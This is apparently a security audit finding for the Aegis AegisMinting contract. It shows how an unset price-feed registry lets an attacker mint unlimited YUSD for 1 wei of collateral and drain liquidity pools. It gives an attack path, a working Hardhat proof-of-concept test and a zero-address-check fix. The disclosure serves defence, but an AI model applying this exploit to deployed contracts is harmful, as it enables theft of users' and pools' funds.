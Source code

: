 Hollow Flaxen Millipede

Medium

# attacker can mint any amount of YUSD if `_feedRegistry` is not set or set to `address(0)`

### Summary

If `_feedRegistry` is set to `address(0)` or not set at all (which is currently allowed during deployment as well) attacker can mint any amount if YUSD with just 1 wei of collateral asset.

Why this admin input related finding is valid: the explicit [if (address(_feedRegistry) == address(0))](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L806) check signals that the `_feedRegistry` can be indeed the `address(0)` or potentially set to this value by the admins, which is exploitable since it returns `0,0` and it contradicts the [zero value check ](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L811)done on the chainlink price-feed `answer`.  It is [explicitly](https://github.com/sherlock-audit/2025-04-aegis-op-grant-gabkov?tab=readme-ov-file#q-are-there-any-limitations-on-values-set-by-admins-or-other-roles-in-the-codebase-including-restrictions-on-array-lengths) mentioned in the README as well that the admins should be trusted to set **any** value. This behaviour should not be allowed in any cases, because of the exploit detailed bellow.

### Root Cause

At [AegisMinting.sol#L254](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L254) if `_feedRegistry` is [not set](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L806) `_calculateMinYUSDAmount` will [return](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L738) the passed `order.yusdAmount` parameter amount, then continues the execution. The attacker is able to just pass in 1 wei of collateral to make the mint function execute successfully.

### Internal Pre-conditions

1. `_feedRegistry` is set to `address(0)` or not set at all
2. if mint limit is not set any amount can be minted

Note: if `whitelistEnabled` is set to `true` only whitelisted users can execute the attack, but considering how is easy is to bypass KYC this is not a huge limiting factor. If `whitelistEnabled` is set to `false` anyone can exploit it. 

### External Pre-conditions

NA

### Attack Path

1. attacker approves 1 wei of supported collateral asset for the AegisMinting contract
2. submits a mint request with any amount (or within the current limit) YUSD + 1 wei of collateral asset
3. swaps YUSD on exchanges and drains the LP or potentially submits a requestRedeem

### Impact

- If mint limit is not set the attacker can drain all the LPs
- If mint limit is set attacker can deplete the active mint limit period and sell the tokens or submit a requestRedeem

### PoC

Paste the following test bellow [5_aegis_minting_mint.spec.ts#L19](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/test/5_aegis_minting_mint.spec.ts#L19) into the `success` cases. The test demonstrates the attack.

```typescript
it('attacker can mint any amount of YUSD with just 1 wei of collateral asset if _feedRegistry is not set', async () => {
        const [, attacker] = await ethers.getSigners()

        const { aegisMintingContract, aegisMintingAddress, assetContract, assetAddress, yusdContract, aegisConfig } = await loadFixture(deployFixture)

        // whitelistEnabled is set to true so attacker needs to be whitelisted
        await aegisConfig['whitelistAddress(address,bool)'](attacker, true)

        // attacker obtains 1 wei of collateral asset and approves for AegisMinting
        await assetContract.mint(attacker.address, 1n)
        await assetContract.connect(attacker).approve(aegisMintingAddress, 1n)

        const collateralAmount = 1n
        // attacker can specify any amount of YUSD to be minted (or within the current limit)
        const yusdAmount = ethers.parseEther('100000')

        const blockTime = await time.latest()
        const order = {
          orderType: OrderType.MINT,
          userWallet: attacker.address,
          collateralAsset: assetAddress,
          collateralAmount: collateralAmount,
          yusdAmount: yusdAmount,
          slippageAdjustedAmount: yusdAmount,
          expiry: blockTime + 10000,
          nonce: Date.now(),
          additionalData: encodeString(''),
        }
        const signature = await signOrder(order, aegisMintingAddress)

        const mintingContractAssetBalanceBefore = await assetContract.balanceOf(aegisMintingAddress)
        const custodyAvailableAssetBalanceBefore = await aegisMintingContract.custodyAvailableAssetBalance(assetAddress)

        const senderYUSDBalanceBefore = await yusdContract.balanceOf(attacker.address)
        const senderAssetBalanceBefore = await assetContract.balanceOf(attacker.address)

        await expect(aegisMintingContract.connect(attacker).mint(order, signature)).to.
          emit(aegisMintingContract, 'Mint').
          withArgs(attacker.address, order.collateralAsset, order.collateralAmount, order.yusdAmount, 0)

        await expect(assetContract.balanceOf(aegisMintingAddress)).eventually.to.be.equal(mintingContractAssetBalanceBefore + collateralAmount)
        await expect(aegisMintingContract.custodyAvailableAssetBalance(assetAddress)).eventually.to.be.equal(custodyAvailableAssetBalanceBefore + collateralAmount)
        // successful attack
        await expect(yusdContract.balanceOf(attacker.address)).eventually.to.be.equal(senderYUSDBalanceBefore + yusdAmount)
        await expect(assetContract.balanceOf(attacker.address)).eventually.to.be.equal(senderAssetBalanceBefore - collateralAmount)
      })
```

then run
```sh
npx hardhat test test/5_aegis_minting_mint.spec.ts --grep 'attacker can mint any amount of YUSD with just 1 wei of collateral asset if _feedRegistry is not set'
```

### Mitigation

In my opinion the `_feedRegistry` should not be allowed to be set to the zero address at all, because of the potential exploit it can cause.

The easiest mitigation would be to explicitly check in [_setFeedRegistryAddress](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L691) if `_registry` is `address(0)` enforcing it from beginning to be set properly and also avoiding future user errors setting it to the zero address.

```solidity
function _setFeedRegistryAddress(FeedRegistryInterface _registry) internal {
    if(address(_registry) == address(0)) revert ZeroAddress();
    _feedRegistry = _registry;
    emit SetFeedRegistryAddress(address(_registry));
}
```

This would allow to delete the [check](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L806) which resulted the exploit to be removed completely.